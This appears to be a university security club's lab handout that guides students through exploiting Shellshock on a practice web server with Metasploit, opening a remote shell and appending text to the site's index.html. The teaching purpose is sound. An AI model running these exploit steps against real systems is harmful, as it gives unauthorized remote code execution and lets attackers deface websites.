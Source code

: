 # RITSEC Academic Day - ShellShock 

## Setup
- Open 'VMWare Workstation Pro'
- Click on 'Kali Linux 2021' on the left side list of VMs
- Right click again on 'Kali Linux 2021' and click 'Settings'. 
    - Select 'Network Adapter' and change it to 'Bridged'
- Hit the Green Play Button to start the VM.
    - Username: kali
    - Password: kali

## Viewing the Website
- Click the top left logo to search for firefox.
- Open your browser and head to http://<TARGET_IP>:8080

## Attacking the Box - Commands To Run
- Click the Black Box with the "$_" to open the terminal.

![terminal](terminal.PNG)

This will open the Metasploit Console.
1. `msfconsole`

![landing](landing.PNG)

Here, you are searching for the shellshock vulnerability to use.

2. `search shellshock`

![search](search.PNG)

This is selecting the shellshock exploit.

3. `use 1`

![use1](use1.PNG)

This is seeing the module and payload options that will be configured.

4. `options`

![options](options.PNG)

Setting the vulnerable cgi page to utilize.

5. `set targeturi /cgi-bin/vulnerable`

![targeturi](targeturi.PNG)

Setting the target hosting the site that we will attack.

6. `set rhosts <TARGET_IP>`

Setting the port the website is being hosted on.

7. `set rport 8080`

![rport](rport.PNG)

Attack the box!

7. `exploit`

![exploit](exploit.PNG)

With the meterpreter prompt, enter `shell` to spawn a bash prompt on the box.

8. `shell`

![shell](shell.PNG)

## Modifying the Website

With your shell, now you can modify the website. Run the pwd command to see your path (location) on the remote box.

1. `pwd`

![pwd](whoamiandpwd.PNG)

Most websites by default keep their files in `/var/www`. Change to this directory and list the contents.

2. `cd /var/www`
3. `ls`

![cdandls](cdandls.PNG)

The `index.html` file contains the main page of the website. Add your name to it below. 

The `echo` command will write what you give it into the file given. MAKE SURE TO USE TWO (2) '>' keys!

4. `echo 'your_name_here' >> index.html`

![echo](addyourname.PNG)

Now visit the website and see that your name has been publicly added!

Now it's your turn, find out how to add a page of your own to the site. (Hint: use the `touch` command)
